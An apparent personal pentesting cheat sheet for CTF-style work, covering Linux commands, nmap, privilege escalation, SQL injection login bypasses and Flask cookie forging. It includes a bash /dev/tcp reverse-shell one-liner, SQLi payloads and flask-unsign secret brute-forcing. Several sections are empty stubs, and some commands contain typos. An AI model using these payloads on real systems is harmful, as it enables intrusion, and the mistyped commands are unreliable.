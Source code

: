 # Table of Content
- [Useful Linux Command](#linux)
- [Useful Reverse Shell](#reverseshell)
- [Reconnaissance](#recon)
   - [Nmap](#nmap)
   - [Nikto](#nikto)
- [Privilege Escalation](#privesc)
   - [Shell Spawning](#shellspawn)
   - [SUID](#suid)
- [Web App](#webapp)
   - [SQL Injection](#sqlinj)
   - [Flask Cookies Forge](#flaskcookie)
   - [XSS](#xss)
   - [XML External Entity (XXE)](#xxe)
   - [Subdomain Takeover](#subdomain)

<a name="linux"></a>
## Useful Linux Command

- ```ls```: List every file in a directory
- ```ls -al```: List every file in directory with its chmod.
- ```cd [directory]```: Enter a directory
- ```cd ..```: Go back up one directory
- ```cd ~```: go back to home directory
- ```pwd```: current folder
- ```strings [file]``` : Grab human readable strings from a binary file
- ```file [directory] -type f -size 1033c -executable -readable```: Find a human readable file with size 1033, and executable.
- ```chmod +x [file]```: Add executable to file's chmod;
- ```uniq [file1] [file2]```: Find the unique line between two files
- ```base64 -d [file]```: Use base64 to decode text stored in file.
- ```cat [file] | tr 'A-Za-z' 'N-ZA-Mn-za-m'```: Open a file and rot13
- ```xxd [file]```: Read binary data of a file

<a name="recon"></a>
## Reconnaissance

<a name="nmap"></a>
### Nmap

- ```nmap -p- -oA full-nonscripts [Target IP] --max-retries 0```: 
- ```nmap -sC -sV -O -oA [file] [target ip]```:




<a name="nikto"></a>
### Nikto

<a name="reverseshell"></a>
## Useful Reverse Shell

```bash -i >& /dev/tcp/[host]/[port] 0>&1```

<a name ="privesc"></a>
## Privilege Escalation

<a name="shellspawn"></a>
### Shell Spawning 

```python
python -c 'import pty;pty.spawn("/bin/sh")'
```


<a name="suid"></a>
### SUID

To find file with SUID bit. Simply use following command:

```
find [directory] -perm -u=s -type f 2>/dev/null
```

<a name="webapp"></a>
## Web App 

<a name="sqlinj"></a>
### SQL Injection

#### Login Form 
Normally, a POST request would takes two parameters (i.e. username and password) from the login form. Thus, the SQL command at the backend is look something like this:

```SQL
SELECT * from TABLE where USERNAME='USERNAME' AND PASSWORD = 'PASSWORD';
```
The statement above mainly ask the Database to select the user where the username and password are matched with the one we input to the login form. 

Now, if we put below payload into the username field, 

```SQL
admin' OR 1=1 --
```
the whole SQL statement would becomes this:

```SQL
SELECT * from TABLE where USERNAME='admin' OR 1=1 --AND PASSWORD='PASSWORD';
```
So, now the statement above now turns to select the user where username is admin or 1=1. Please pay attention that ```--``` means comment out the rest of the statement. Thus, it doesnt matter whether you have put in anything to the password field. Now, the database would return the whole list of user from their database. And normally, a session with the first user in the database would be created for us. If the statement above can't log you in, you may also try something like below as SQL syntax might slightly varies in different brands of SQL.

```SQL
admin' OR 1=1 #
admin" OR 1=1 #
admin" OR 1=1 --
```
If above can log you in and you want to login as other users, you may use the statement below:

```SQL
 ' UNION SELECT 1 --
```
Thus, the whole SQL statement would becomes:

```SQL
SELECT * from TABLE where USERNAME='' UNION SELECT 1 --AND PASSWORD='PASSWORD';
```


```SQL
 ' UNION SELECT 1,2 # 
 ' UNION SELECT 1,2,3 # 
```

<a name ="flaskcookie"></a>
### Flask Cookie Forge

For Flask Web App, there is a very major security risk in its session management if the developer uses its in-built session management function. If you have built a Flask app before, you would be noticed that you need to define something like below in your code:

```python
app.config['SECRET_KEY'] = "secret"
```
The secret key above is used to sign a cookies generated by its session management function. A signed Flask cookies is something like below:-

```
eyxxxxxxxxxxxxxx.xxxxxx.xxxxxxxxx
```
If you found out the webapp has some cookies like this, it is very likely that it is generated by Flask. If you want to further confirm, you can use base64 to decode it. You should able to decode the first part of cookies into a dictionary like below:

```
{'username': 'user', 'login': 'false'}
```

So, it is logical to think that if you can login to true, it might log you in. Thus, your next step is to find out what the secret key is for you to make a manipulated flask cookie to trick the web app server. To do that, you can download an opensource module called "flask-unsign" to help. 

```
pip3 install flask-unsign[wordlist]
```
Then, use below command to find out the secret key:

```
flask-unsign --unisgn -cookie "eyxxxxxxxxxxxxx.xxxx.xxxxxx"
```
This command would brute force and find out the secret key. Once, a secret key is found (e.g. password1), you can sign a new flask cookie with the key and manipluated data. 





<a name = "xss"></a>
### XSS

<a name = "xxe"></a>
### XML External Entity (XXE)
In web app that 


<a name ="subdomain"></a>
### Subdomain Takeover

